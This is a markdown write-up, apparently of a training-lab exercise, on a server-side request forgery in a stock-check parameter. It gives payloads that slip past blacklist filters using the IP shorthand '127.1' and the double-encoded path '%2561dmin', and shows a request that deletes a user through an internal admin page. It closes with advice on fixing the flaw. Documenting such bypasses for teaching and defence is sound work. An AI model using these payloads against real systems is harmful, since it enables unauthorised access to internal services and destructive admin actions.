


# SSRF with Blacklist-Based Filter Bypass

## Summary

A **Server-Side Request Forgery (SSRF)** vulnerability was identified in the stock check feature. Two weak blacklist-based anti-SSRF defenses were bypassed using **IP address shorthand notation** and **double URL encoding** to access the internal admin interface and delete a user.

**Severity:** Critical  
**CWE:** CWE-918 – Server-Side Request Forgery  
**Technique:** Blacklist Bypass via IP Obfuscation & Double Encoding

---

## Technical Details

- **Vulnerable Parameter:** `stockApi`
- **Defense 1:** Blocks `127.0.0.1`
- **Defense 2:** Blocks `/admin` path

---

## Step-by-Step Exploitation

### Step 1: Initial Attempt – Blocked

```
http://127.0.0.1/
```

**Result:** Request blocked. Blacklist rejects `127.0.0.1`.

### Step 2: Bypass Defense 1 – IP Shorthand

Changed to `127.1` (equivalent to `127.0.0.1`):

```
http://127.1/
```

**Result:** Accepted. Blacklist does not recognize the shorthand notation.

> **[Screenshot 1: Burp Repeater showing successful request to http://127.1/]**
  

### Step 3: Access Admin – Blocked Again

```
http://127.1/admin
```

**Result:** Blocked. Second blacklist rule blocks the `/admin` path.

### Step 4: Bypass Defense 2 – Double URL Encoding

Double-encoded the letter `a` in `admin` to `%2561`:

```
http://127.1/%2561dmin/delete?username=carlos
```

**Result:** Accepted. The filter fails to recognize the encoded path. User `carlos` deleted.

> **[Screenshot 2: Response confirming successful deletion of carlos]**
  

---

## Payload Breakdown

| Component | Bypasses |
|-----------|----------|
| `127.1` | IP blacklist (shorthand for `127.0.0.1`) |
| `%2561dmin` | Path blacklist (`%2561` decodes to `a`) |

---

## Impact

- Internal admin interface access
- Unauthorized privileged actions (user deletion)
- Potential for data exfiltration and service compromise

---

## Remediation

1. **Use Allowlist, Not Blacklist** — Only permit specific, trusted hosts/paths
2. **Resolve and Validate IPs** — Resolve hostnames to IPs and validate against allowed ranges
3. **Normalize Before Validation** — Decode URLs fully before applying any filter
4. **Network Segmentation** — Block outbound requests to internal IP ranges at the network level
